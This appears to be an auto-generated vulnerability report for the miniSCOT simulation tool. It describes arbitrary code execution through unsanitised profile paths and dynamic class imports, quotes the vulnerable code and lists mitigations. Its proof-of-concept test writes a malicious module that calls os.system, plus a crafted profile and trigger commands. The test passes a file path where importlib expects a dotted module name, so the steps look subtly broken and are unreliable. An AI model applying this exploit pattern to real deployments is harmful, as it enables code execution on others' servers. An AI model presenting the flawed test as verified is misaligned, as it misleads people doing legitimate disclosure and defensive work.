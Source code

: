 ## Combined Vulnerability List

### Arbitrary Code Execution via Profile Configuration

* Description:
    1. The `miniscot` application utilizes profiles (JSON files) to configure simulation modules and services. These profiles dictate which modules and metrics are loaded for the simulation.
    2. The application loads profiles based on user-supplied input via the `-profile` command-line argument.
    3. The `load_profile` function in `src/scse/profiles/profile.py` is responsible for loading profile files. It first attempts to load a profile by joining the provided profile name with `.json` and the profile directory path. If this fails, it directly uses the provided profile path without validation or sanitization. This behavior enables path traversal vulnerabilities.
    4. The `load_profile` function reads and parses the profile file (JSON).
    5. The profile file specifies modules and metrics to be loaded and instantiated. The `instantiate_class` function in `src/scse/profiles/profile.py` is used for this purpose.
    6. The `instantiate_class` function dynamically imports and instantiates Python classes based on the `full_class_name` specified in the profile. It uses `importlib.import_module` to import the module and `getattr` to get the class.
    7. A malicious user can craft a profile file that specifies a malicious Python module and class with code designed to execute system commands.
    8. By providing the path to this malicious profile via the `-profile` argument to the `miniscot` application, or exploiting the path traversal vulnerability to load a malicious profile, the attacker can force the application to load and execute the malicious module, leading to arbitrary code execution on the server.

* Impact: Arbitrary code execution on the server running `miniscot`. This is a critical vulnerability that allows an attacker to gain complete control of the miniSCOT application and potentially the entire server. The attacker can execute arbitrary commands, install malware, steal sensitive data, or disrupt the simulation environment, leading to complete system compromise, data theft, malware installation, and denial of service.

* Vulnerability Rank: Critical

* Currently implemented mitigations: None. The application currently loads modules and profiles without any validation of the module paths, profile paths or class names.

* Missing mitigations:
    - Input validation and sanitization of the `profile` parameter to ensure it only accepts valid profile names or paths from a restricted set of allowed locations and formats, preventing path traversal and unexpected file access.
    - Restrict profile loading to a predefined, secure directory and prevent loading from arbitrary file paths provided by users.
    - Implement a safelist of allowed modules and classes that can be instantiated via profiles. Any module or class not on the safelist should be rejected.
    - Sandboxing or isolation for loaded modules to restrict their access to system resources, limiting the impact of malicious code.
    - Least privilege principles for the `miniscot` application process to minimize the damage from potential exploits.
    - Code review of the module loading and instantiation mechanisms to identify and address any other potential vulnerabilities.

* Preconditions:
    - The attacker needs to be able to execute the `miniscot` command-line application.
    - The attacker must be able to provide a crafted profile file path as an argument to the `miniscot` application using the `-profile` flag, or be able to exploit the path traversal vulnerability to load a malicious profile from an arbitrary location.

* Source code analysis:
    1. **`src/scse/main/cli.py`**: The `do_start` function in `MiniSCOTDebuggerApp` class uses `argparse` to handle command-line arguments, including `-profile`. The value provided for `-profile` is stored in `args.profile` and passed to the `_start` method.
    2. **`src/scse/main/cli.py`**: The `_start` function calls `self._env = miniSCOT.SupplyChainEnvironment(**run_parameters)`, passing the `profile` value within the `run_parameters` dictionary to the `SupplyChainEnvironment` constructor.
    3. **`src/scse/controller/miniscot.py`**: In the `SupplyChainEnvironment.__init__` method, the `profile` value from `run_parameters` is directly passed to the `load_profile` function: `profile_config = load_profile(profile)`.
    4. **`src/scse/profiles/profile.py`**: The `load_profile` function first attempts to load the profile from the expected location by joining the `profile_configuration` with `.json` and the module path. If this fails with a `FileNotFoundError`, it falls back to directly using the `profile_configuration` as the file path without any validation or sanitization.
    ```python
    def load_profile(profile_configuration):
        module_path = dirname(__file__)
        try:
            fpath = join(module_path, profile_configuration + '.json')
            logger.debug("Open profile file = {}.".format(fpath))
            with open(fpath) as f:
                profile = json.load(f)
        except FileNotFoundError:
            fpath = profile_configuration # Path Traversal Vulnerability
            logger.debug("Open profile file = {}.".format(fpath))
            with open(fpath) as f:
                profile = json.load(f)
        return profile
    ```
    5. **`src/scse/profiles/profile.py`**: After loading the profile configuration as a JSON object, the `instantiate_class` function is used to instantiate modules and metrics listed in the profile. The `full_class_name` for each module and metric is taken directly from the profile.
    ```python
    def instantiate_class(full_class_name, **parameters):
        last_dot = full_class_name.rindex('.')
        module_name = full_class_name[:last_dot]
        class_name = full_class_name[last_dot + 1:]
        module = importlib.import_module(module_name) # Arbitrary Code Execution Vulnerability
        agent_class = getattr(module, class_name)
        agent_instance = agent_class(parameters)
        return agent_instance
    ```
    6. **`src/scse/profiles/profile.py`**: The `instantiate_class` function uses `importlib.import_module(module_name)` to dynamically import the Python module specified in `module_name` (extracted from `full_class_name`) and then uses `getattr(module, class_name)` to get and return an instance of the class. If a malicious user can control the `full_class_name` in the profile, they can cause arbitrary Python code to be imported and executed when `miniscot` is run.

* Security test case:
    1. Create a file named `malicious_module.py` in the `/tmp/` directory with the following content:
    ```python
    # /tmp/malicious_module.py
    import os
    import scse.api.module

    class MaliciousModule(scse.api.module.Module):
        def __init__(self, config):
            os.system("touch /tmp/miniscot_pwned") # Creates a file in /tmp as a proof of concept
            print("Malicious code executed!")

        def get_name(self):
            return 'malicious_module'
    ```
    2. Create a file named `malicious_profile.json` in the `/tmp/` directory with the following content:
    ```json
    {
      "modules": [
        "/tmp/malicious_module.MaliciousModule"
      ],
      "metrics": []
    }
    ```
    3. Run the `miniscot` application from your terminal, providing the malicious profile file as an argument:
    ```bash
    miniscot -profile /tmp/malicious_profile.json
    ```
    4. After executing the command, check if a file named `miniscot_pwned` has been created in the `/tmp` directory.
    ```bash
    ls /tmp/miniscot_pwned
    ```
    5. If the file `/tmp/miniscot_pwned` exists and you see "Malicious code executed!" in the console output, it confirms that the code from `malicious_module.py` was executed by `miniscot` as a result of loading the `malicious_profile.json`, demonstrating the arbitrary code execution vulnerability.
